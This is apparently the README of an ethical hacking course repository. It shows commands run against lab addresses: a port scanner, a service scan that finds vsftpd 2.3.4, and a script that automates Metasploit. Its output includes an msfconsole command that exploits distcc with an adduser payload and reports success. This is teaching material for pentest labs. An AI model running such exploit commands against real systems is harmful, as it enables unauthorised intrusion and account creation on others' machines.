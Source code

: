 # Pentest


## Learn Python & Ethical Hacking 

---
* <a href="Tutorial.md">Tutorial.md</a>
---
#### Mind map
* <a href="EH_2023_part_1.drawio.svg">EH_2023_part_1.drawio.svg</a>

---
## Device information:

  ```shell
  ifconfig
  ```

  ```shell
  ip -c a
  ```
  
  ```shell
  arp -a
  ```
  
  Windows  
  ```shell
  ipconfig /all
  ```

---


## scripts

1. <a href="#port_scanner">Port Scanner</a>
2. <a href="#exploits_and_payloads">Exploits and Payloads</a>



---

1. **Port Scanner** <a name="port_scanner"></a>  

    ```pycon
    cd 1_port_scan
    ```
    
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_1.py -t 10.0.2.4 -p 100
    
    ```
    
    Some servers may consider such requests as a hacking attempt and block your IP address:
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_2.py -t 10.0.2.1,10.0.2.4 -p 100
    
    ```

2. **Exploits and Payloads** <a name="exploits_and_payloads"></a>  

    ```pycon
    cd 2_exploits_and_payloads
    ```
   
   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ sudo python service_info_3.py 
   [sudo] пароль для kali: 
   {'PORT': '21/tcp', 'STATE': 'open', 'SERVICE': 'ftp', 'VERSION': 'vsftpd 2.3.4'}
   ```

   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python3 get_exploits_MSF.py
   ```
   
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python MSF_exploits_and_payloads_1.py
   
   Trying exploit:  exploit/unix/misc/distcc_exec
   Trying payload:  payload/cmd/unix/adduser
   Trying command:  msfconsole -q -x "use exploit/unix/misc/distcc_exec; set payload payload/cmd/unix/adduser; set RHOSTS 10.0.2.4; set RPORT 3632; set LHOST 10.0.2.5; check; exit"
   [+] Successful exploitation:  exploit/unix/misc/distcc_exec, Payload: payload/cmd/unix/adduser
   - - - - - - - - - - - - - - - - - - - - 
   ```